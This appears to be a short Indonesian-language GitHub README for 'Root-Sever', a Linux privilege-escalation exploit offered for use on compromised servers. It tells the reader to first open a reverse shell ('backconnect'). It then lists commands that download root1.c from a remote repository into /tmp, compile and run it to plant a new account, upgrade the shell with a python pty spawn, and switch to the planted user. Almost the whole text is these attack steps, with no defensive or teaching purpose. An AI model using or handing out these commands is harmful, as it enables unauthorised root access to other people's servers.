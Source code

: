 # Root-Sever
sebelum pakai pastikan backconect terlebih dahulu
lalu compile file nya 
# command nya
```cd /tmp```
<br>
mkdir demon
<br>
cd demon
<br>
wget https://raw.githubusercontent.com/ganest-seven/Root-Sever/main/root1.c 
<br>
gcc -pthread root1.c -o g7 -lcrypt
<br>
chmod +x g7
<br>
./g7
<br>
lalu buat password baru dan tunggu proses selsai (agak lama)
<br>
id ganestseven
<br>
python -c 'import pty; pty.spawn("/bin/sh")'
<br>
su ganestseven
<br>
lalu id lagi
<br>

